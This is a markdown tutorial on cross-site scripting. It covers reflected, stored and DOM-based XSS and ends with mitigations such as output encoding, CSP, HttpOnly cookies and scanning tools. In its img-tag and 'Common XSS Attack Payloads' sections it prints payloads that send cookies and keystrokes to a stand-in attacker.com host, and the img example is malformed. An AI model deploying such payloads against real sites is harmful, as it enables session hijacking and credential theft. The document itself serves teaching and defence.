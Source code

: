 <br>

# Cross-Site Scripting (XSS)
Cross-Site Scripting (XSS) is **a web application vulnerability where attackers inject malicious scripts into web pages viewed by other users**. These scripts execute in the victim’s browser, enabling attackers to **steal sensitive data, hijack sessions, or perform other malicious actions**.

## 1. Types of XSS Attacks

### a. Reflected XSS
  - Definition: Malicious scripts are **injected into a web application and immediately reflected back** to the victim in the response.
  - How It Works
    1. An attacker sends a **malicious link containing the payload** (e.g., in a URL query string).
    2. The web server **includes the payload in the response** without proper sanitization.
    3. The victim **clicks the link, and the script executes in their browser**.
  - Example
    - If the server embeds q directly into the page without escaping, the script runs in the victim’s browser.  

```
https://example.com/search?q=<script>alert('XSS')</script>
``` 

  - Use Cases for Attack
    - **Phishing links**.
    - Delivering payloads for credential theft or session hijacking.

### b. Persistent (Stored) XSS
  - Definition: The malicious script is **stored on the server** (e.g., in a database) and served to users whenever they visit the affected page.
  - How It Works
    1. The attacker **submits** malicious input (e.g., a script) to a website.
    2. The website **stores this input** (e.g., in a user comment or profile).
    3. The malicious script is displayed and executed in other users’ browsers **when they view the content**.
  - Example
    - A comment form accepts:
      - Other users viewing the comment section trigger the script.  

```
<script>alert('XSS')</script>
```

  - Use Cases for Attack
    - Defacing websites.
    - Targeting multiple users simultaneously with session theft or malware.

### c. DOM-Based (Client-Side) XSS
- Definition: The malicious script is **injected and executed entirely in the browser, without involving the server**. The application’s client-side JavaScript manipulates the DOM insecurely.
- How It Works
  1. The attacker **crafts a malicious URL with a payload** (e.g., in a hash fragment or query parameter).
  2. The victim **clicks the link, and the vulnerable client-side JavaScript executes the payload in the DOM**.
  3. **No server-side** reflection or storage occurs.
- Example
  - JavaScript dynamically modifies the page based on the URL fragment:  

```
document.getElementById('output').innerHTML = location.hash;
```

  - URL:  

```
https://example.com/#<script>alert('XSS')</script>
```

- Use Cases for Attack
  - Exploiting insecure JavaScript handling of user input.

## 2. Using \<img> Tags in XSS Attacks
  - \<img> tags can be used to **load external resources or execute scripts** indirectly by exploiting cross-origin HTTP requests.
  - Example of \<img> in XSS
    - This sends the user’s cookies to the attacker’s server.  

```
<img src="https://attacker.com/steal?cookie=" + document.cookie>
```

  - Why \<img> Tags Are Effective
    - They don’t require user interaction to trigger.
    - Browsers automatically fetch the resource, making it a reliable vector for cross-origin requests.

## 3. Common XSS Attack Payloads
  - Stealing Cookies  

```
<script>document.location="https://attacker.com/?cookie=" + document.cookie</script>
```

  - Keylogging  

```
<script>
document.onkeypress = function(e) {
  fetch("https://attacker.com/log?key=" + e.key);
};
</script>
```

  - Session Hijacking  

```
<script>
fetch("https://example.com/logout");
fetch("https://attacker.com/steal?session=" + document.cookie);
</script>
```

## 4. Mitigating XSS

### a. Input Validation and Sanitization
  - **Validate** all user **input on the server side and client side**.
  - Escape special characters (<, >, "):
    - Use libraries like DOMPurify for sanitization.

### b. Output Encoding
  - Properly **encode output** to prevent scripts from being interpreted as code:
    - HTML Encoding  

```
& -> &amp;
< -> &lt;
> -> &gt;
" -> &quot;
```

  - JavaScript Encoding
    - Escape values embedded in JavaScript code.

### c. Content Security Policy (CSP)
  - **Enforce a strict CSP** to limit where scripts can be loaded from:  

```
Content-Security-Policy: script-src 'self' https://trusted-cdn.com
```

### d. HTTPOnly and Secure Cookies
  - **Mark cookies as HttpOnly** to prevent access via JavaScript.
  - Example  

```
Set-Cookie: sessionId=abc123; HttpOnly; Secure
```

### e. Avoid Dangerous Practices
  - Avoid directly inserting untrusted input into the DOM using innerHTML, document.write, or eval.

## 5. Detection Tools for XSS Vulnerabilities

| Tool | Purpose |
| ---- | ------- |
| Burp Suite | Automated scanning for XSS vulnerabilities in web applications. |
| OWASP ZAP | Open-source tool to detect XSS and other web vulnerabilities. |
| Acunetix | Comprehensive security scanner for web applications. |
| DOM Snitch | A Chrome extension to detect DOM-based XSS vulnerabilities. |

## 6. Summary of XSS Types

| Type | Description | Example |
| ---- | ----------- | ------- |
| Reflected XSS | Malicious script is reflected off the server and executed in the victim’s browser. | Payload in URL query parameters. |
| Persistent XSS | Malicious script is stored on the server and served to all users viewing the affected resource. | Injected into comment fields or user profiles. |
| DOM-Based XSS | Malicious script is executed in the client’s browser without server involvement. | Exploits insecure JavaScript like innerHTML or location.hash. |

## 7. Best Practices to Prevent XSS
1. Use a Framework with Built-in Security
  - Frameworks like React or Angular handle DOM manipulation securely by default.
2. Enable a Content Security Policy (CSP)
  - Restrict script sources to trusted domains.
3. Validate and Sanitize Input
  - Reject or sanitize dangerous input.
4. Escape and Encode Output
  - Encode all dynamic data before rendering.
5. Train Developers
  - Educate developers about XSS risks and secure coding practices.

## Summary
**XSS attacks exploit web applications to execute malicious scripts in a user’s browser, leading to data theft, session hijacking, or worse**. Understanding the different types of XSS (Reflected, Persistent, DOM-Based) and employing robust mitigation strategies—such as input validation, CSP, and output encoding—are essential for securing modern web applications against this pervasive threat.  
<br>